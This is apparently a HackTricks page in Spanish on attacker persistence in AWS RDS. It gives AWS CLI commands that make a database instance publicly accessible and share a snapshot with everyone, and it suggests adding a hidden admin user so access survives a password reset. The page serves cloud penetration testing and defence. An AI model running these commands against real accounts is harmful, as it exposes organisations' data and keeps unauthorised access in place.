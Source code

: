 # AWS - RDS Persistencia

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Para más información, consulta:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Hacer la instancia accesible públicamente: `rds:ModifyDBInstance`

Un atacante con este permiso puede **modificar una instancia RDS existente para habilitar el acceso público**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Crear un usuario admin dentro de la DB

Un atacante podría simplemente **crear un usuario dentro de la DB** de modo que, incluso si se modifica la contraseña del usuario master, él **no pierde el acceso** a la base de datos.

### Hacer público el snapshot
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
